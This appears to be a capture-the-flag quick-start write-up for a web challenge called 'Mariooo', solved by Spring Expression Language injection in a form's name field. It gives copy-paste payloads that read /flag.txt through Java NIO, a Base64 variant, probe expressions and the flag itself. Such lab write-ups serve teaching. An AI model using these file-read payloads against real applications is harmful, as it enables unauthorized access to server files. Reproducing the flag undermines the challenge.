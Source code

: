 # Quick Start Guide

## Challenge: Mariooo (M4)
**Category:** Web Exploitation | **Points:** 350 | **Difficulty:** Medium

## TL;DR
SpEL injection in name field → Read `/flag.txt` using Java NIO

---

## Fastest Solution

### Payload (Copy-Paste Ready)
```
${new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}
```

### Steps
1. Enter payload in the "name" field
2. Submit the form
3. Flag appears in response: `PCC{m4ri0_i5_cr4zy_hmmm_nEcSO5wQsf2y}`

---

## Automated Exploitation

### Using Python Script
```bash
python exploit.py http://challenge-url/
```

### Manual Step-by-Step
```bash
python exploit_manual.py http://challenge-url/
```

---

## Verification Steps

1. **Test basic math**: `${{7*7}}` → Should return `49`
2. **Test Java access**: `${T(java.lang.Math).sqrt(81)}` → Should return `9`
3. **Read flag**: Use payload above

---

## Files in This Directory

- `README.md` - Complete writeup with technical details
- `exploit.py` - Automated exploitation script
- `exploit_manual.py` - Step-by-step manual exploitation
- `payloads.txt` - Collection of all tested payloads
- `QUICKSTART.md` - This file

---

## Alternative Method (Base64)

If direct string method fails:

```
${T(java.util.Base64).getEncoder().encodeToString(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}
```

Then decode locally:
```bash
echo "BASE64_OUTPUT" | base64 -d
```

---

## Flag
```
PCC{m4ri0_i5_cr4zy_hmmm_nEcSO5wQsf2y}
```

---

For detailed technical explanation, see `README.md`
